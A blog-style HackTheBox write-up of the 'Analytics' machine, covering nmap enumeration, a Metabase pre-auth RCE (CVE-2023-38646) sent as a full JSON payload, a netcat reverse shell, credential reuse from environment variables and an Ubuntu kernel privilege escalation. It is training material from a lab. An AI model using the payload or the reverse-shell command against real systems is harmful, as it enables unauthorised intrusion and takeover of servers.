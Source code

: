 ```yaml
---
weight: 1
title: "HackTheBox - Analytics"
date: 2024-03-23T07:00:21+05:00
lastmod: 2024-03-23T07:00:21+05:00
draft: false
author: "Saad Akhtar"
authorLink: "https://ssaadakhtarr.github.io/"
description: "HackTheBox easy machine Analytics walkthrough."
images: []
resources:
- name: "featured-image"
  src: "0.png"

tags: ["hackthebox", "machines"]
categories: ["HackTheBox"]

lightgallery: true

toc:
  auto: false
---
```


This post is focused on the walkthrough of Easy machine Analytics from HackTheBox.

<!--more-->

## Summary

Analytics involves exploitation of Pre-Auth RCE in Metabase (CVE-2023-38646) to get foothold in a docker container, getting some credentials to ssh into the host machine. Finally, exploiting a local privilege escalation vulnerability in Ubuntu Kernel (CVE-2023-32629) to get shell as root.

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/ambassador]
└─$ nmap -A -vv 10.10.11.233 -oN nmapN

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

So we only got 22 and 80 open.

We'll start off with port 80 web.

The website redirects to `analytical.htb` and visiting the site, there seems nothing of interest but there's a subdomain `data.analytical.htb` link on the page.

![page source](1.png "page source")

The subdomain shows `Metabase` sign in page.

![data.analytical.htb](2.png "data.analytical.htb")

Looking for metabase exploits, we get `CVE-2023-38646`.

[This](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) shows the exploitation steps.

## Foothold

To get RCE, we first need to make a GET request to `/api/session/properties` and extract the `setup-token` from the response.

![Fetching the setup-token](3.png "Fetching the setup token")

Then we need to call POST `/api/setup/validate` with the following body to execute a simple curl command.

POST body for `/api/setup/validate`
```json
{
        "token": <setup-token>,
        "details": {
            "is_on_demand": false,
            "is_full_sync": false,
            "is_sample": false,
            "cache_ttl": null,
            "refingerprint":false,
            "auto_run_queries": true,
            "schedules": {},
            "details": {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl http://10.10.14.91')\n$$--=x",
                "advanced-options":false,
                "ssl": true
            },
            "name": "test",
            "engine": "h2"
        }
    }
```
Notice I'm using a simple `curl` to my local python server to check for a hit.

!["executing curl"](4.png "executing curl")

And we get a successful hit on our server.

!["python server"](5.png "python server")

We can simply execute a reverse shell and get the shell but for some reason normal shell payload weren't working here.

Fortunately, a simple `nc 10.10.14.91 4444 -e bash` worked.

Execute it and we'll get the shell as metabase.

!["shell as metabase"](6.png "shell as metabase")

## Getting a shell on host

We're inside a docker container and we concluded that from our IP and also the presence of `.dockerenv` at `/`.

![docker container](8.png "docker container")

Checking the `environment variables`, we get a password in there.

![env](7.png "env")

Trying this password for the user `metalytics` we get access to the host machine.

![shell as metalytics](9.png "shell as metalytics")

Here we get the `user.txt`.

### user.txt

![user.txt](10.png "user.txt")

## Privilege Escalation

`/etc/os-release` shows the server's is running `Ubuntu 22.04 Jammy Jellyfish`

![/etc/os-release](11.png "/etc/os-release")

A quick google search and we find `CVE-2023-32629`.

It's a privilege escalation vulnerability in Ubuntu Kernal. You can read about this vuln [here](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/).

As for the PoC to exploit this, I used [this](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) one.

Executing the script, we get shell as root.

!["PE to root"](12.png "PE to root")

And now we get the root flag.

### root.txt

![root.txt](13.png "root.txt")

**Thanks for reading!**

